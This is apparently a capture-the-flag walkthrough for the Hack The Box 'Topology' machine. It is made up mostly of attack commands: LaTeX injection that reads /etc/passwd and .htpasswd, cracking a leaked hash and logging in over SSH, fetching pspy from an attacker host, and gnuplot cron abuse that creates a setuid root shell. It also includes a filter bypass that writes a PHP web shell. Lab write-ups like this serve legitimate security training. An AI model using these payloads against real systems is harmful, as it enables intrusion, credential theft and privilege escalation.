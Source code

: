 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🧭 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.217
nmap -p 22,80 -sCV 10.10.11.217
```

### Host Enumeration
```bash
# Add to /etc/hosts
echo "10.10.11.217 topology.htb latex.topology.htb dev.topology.htb stats.topology.htb" | sudo tee -a /etc/hosts
```

### Subdomain Bruteforce
```bash
ffuf -u http://10.10.11.217 -H "Host: FUZZ.topology.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Directory Bruteforce
```bash
feroxbuster -u http://10.10.11.217 -x html
```

---

## 🐚 Shell as `vdaisley`

### LaTeX File Read
```latex
$\lstinputlisting{/etc/passwd}$
```

### [Apache vhost + .htpasswd Enumeration](HTTP.md)
```latex
# View vhost config
$\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$

# View .htaccess
$\lstinputlisting{/var/www/dev/.htaccess}$

# View .htpasswd
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

### Hash Cracking
```bash
# Save hash
echo 'vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' > vdaisley.hash

# Crack with hashcat
hashcat -m 1600 -a 0 vdaisley.hash /opt/rockyou.txt
```

### [SSH](SSH) Access
```bash
sshpass -p 'calculus20' ssh vdaisley@topology.htb
```

---

## ⚙️ Shell as root (via gnuplot cron)

### Gnuplot Cron Observation (with pspy)
```bash
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

### Proof of Concept Payload
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
set print "/dev/shm/0xdf-output"
output = system("id")
print(output)
EOF
```

### Create SetUID Root Shell
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
system("cp /bin/bash /tmp/0xdf")
system("chmod 6777 /tmp/0xdf")
EOF

# Wait a minute, then:
/tmp/0xdf -p
```

---

## 📖 Beyond Root – LaTeX Filter Bypass

### Filter Bypass With `^^`
```latex
# Bypassing filter with \write
$\newwrite\outfile\openout\outfile=cmd.php\^^77rite\outfile{%3C?php system($_GET['cmd']); ?%3E}\closeout\outfile
```

### Trigger Webshell
```bash
curl "http://latex.topology.htb/tempfiles/cmd.php?cmd=id"
```

---

## 🛠️ Fix Broken Stats (Bonus)

### Patch `getdata.sh`
```bash
chattr -i /opt/gnuplot/getdata.sh

# Change grep 'enp' to 'eth' inside getdata.sh
sed -i 's/enp/eth/' /opt/gnuplot/getdata.sh
```

### Fix `networkplot.plt` Source Paths
```bash
# Replace '/var/www/gnuplot' with '/opt/gnuplot' in plot lines
sed -i 's|/var/www/gnuplot|/opt/gnuplot|g' /opt/gnuplot/networkplot.plt
```
